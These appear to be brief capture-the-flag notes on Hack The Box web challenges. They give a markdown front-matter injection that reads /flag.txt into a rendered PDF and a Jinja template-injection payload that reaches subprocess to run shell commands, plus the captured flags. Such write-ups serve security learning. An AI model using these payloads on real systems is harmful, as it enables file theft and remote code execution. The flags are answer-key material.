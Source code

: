 # blinker fluids htb


examining the code we can see in the docker file

```
# Add flag
COPY flag.txt /flag.txt
```
and we see a fake flag for testing as well.

while creating pdf we see

```
                    launch_options: { args: ['--no-sandbox', '--js-flags=--noexpose_wasm,--jitless'] } 

```
https://heinandre.no/htb-cyber-apocalypse-2022/web/blinker-fluids/

first we look at the databases and imports.
we see any templating engine then we can try and inject.

while trying iframe injection I was able to inject an iframe but no flag text file still.


```
---js
{
    css: `body::before { content: "${require('fs').readFileSync('/flag.txt')}"; display: block }`,
}
---

```
HTB{int3rG4l4c7iC_r1d3_0n_bl1nk3r_flu1d5}

# templated htb

when we go to http://159.65.58.189:31882/

we can see that site is still under construction and uses jinja templates

so straight away template injection comes to mind.

but need to run dirbuster to get to any good sites.

https://ireadyoulearn.info/2021/06/19/server-side-template-injection-hack-the-box-walkthrough/

trying with /config

```
Error 404

The page '<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': None, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}>' could not be found
```

```
{{''.__class__.__mro__[1].__subclasses__()[414]('cat%20flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
```

'HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!}

# phonebook

need to do


